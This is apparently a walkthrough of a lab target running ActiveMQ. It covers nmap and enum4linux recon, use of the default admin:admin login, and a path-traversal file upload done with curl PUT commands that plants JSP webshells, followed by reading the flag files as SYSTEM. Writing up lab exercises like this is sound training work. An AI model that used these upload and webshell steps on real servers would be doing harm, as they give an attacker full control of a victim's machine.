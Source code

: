 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

## Recon-Enumeration  
nmap -A -p- 10.2.0.15  
![alt text](./img/active01.PNG?raw=true)  
![alt text](./img/active02.PNG?raw=true)  
![alt text](./img/active03.PNG?raw=true)  

enum4linux 10.2.0.15  
![alt text](./img/active04.PNG?raw=true)  
![alt text](./img/active05.PNG?raw=true)  

dirsearch -u http://10.2.0.15:8161/ -w ~/wordlists/big.txt -t 100 -e php,html,aspx,txt,xml -f --full-url  
![alt text](./img/active09.PNG?raw=true)  
![alt text](./img/active06.PNG?raw=true)   

Let’s start Burpsuite and try to login with admin:admin  
![alt text](./img/active07.PNG?raw=true)  

The highlight section looks encoded. Let’s discover with [CyberChef](https://gchq.github.io/CyberChef/)  
![alt text](./img/active08.PNG?raw=true)  

So the credentials are send encoded with base64

In nmap we can see the versions of the applications  
![alt text](./img/active10.PNG?raw=true)  

## Exploit  
Let’s try to find exploit to them…  
![alt text](./img/active11.PNG?raw=true)  
![alt text](./img/active12.PNG?raw=true)  

We didn't found an exploit for this version of Jetty, however to ActiveMQ we have some. Let’s read the 40857.txt

searchsploit -x windows/remote/40857.txt  
![alt text](./img/active13.PNG?raw=true)  
![alt text](./img/active14.PNG?raw=true)  
  
We can just follow the steps:  
Run the command: echo admin: admin, admin > jetty-realm.properties  
Run the command: touch cmd.jsp  
Put he above lines in the cmd.jsp file:  
PS: Is the same on the exploit description  
![alt text](./img/active26.PNG?raw=true)  

Run the commands:  
curl -v -X PUT --data "@jetty-realm.properties" http://10.2.0.15:8161/fileserver/..\\..\\conf\\jetty-realm.properties  
Restart the target machine  
curl -u 'admin:admin' -v -X PUT --data "@cmd.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmd.jsp  
Access the page http://10.2.0.15:8161/admin/cmd.jsp  
Use the credentials admin:admin  
Ready, now we have an webshell  
![alt text](./img/active15.PNG?raw=true)  

## Privesc  
Running whoami we discover we are system:  
![alt text](./img/active16.PNG?raw=true)  

We already have system, however the dir command doesn’t work. So let’s try to get a shell or more information…  
![alt text](./img/active17.PNG?raw=true)  
![alt text](./img/active18.PNG?raw=true)  

Ok, i had some problems to run some commands. So i uploaded another .jsp webshell with the above code:  
PS: On kali is the same code of the file /usr/share/webshells/jsp/cmdjsp.jsp  
![alt text](./img/active25.PNG?raw=true)  

Run the command:  
curl -u 'admin:admin' -v -X PUT --data "@cmdjsp.jsp" http://10.2.0.15:8161/fileserver/..\\admin\\cmdjsp.jsp  

Now we have 2 webshells that complement each other  
![alt text](./img/active20.PNG?raw=true)  

cd c:\ & dir *.txt /s /p > c:\windows\temp\aaa.txt & type c:\windows\temp\aaa.txt  
![alt text](./img/active21.PNG?raw=true)  
  
![alt text](./img/active22.PNG?raw=true)  
  
type c:\Users\public\user.txt  
![alt text](./img/active23.PNG?raw=true)  

type c:\Users\Administrador.WIN-439TMFLJJ23\root.txt.txt  
![alt text](./img/active24.PNG?raw=true)  
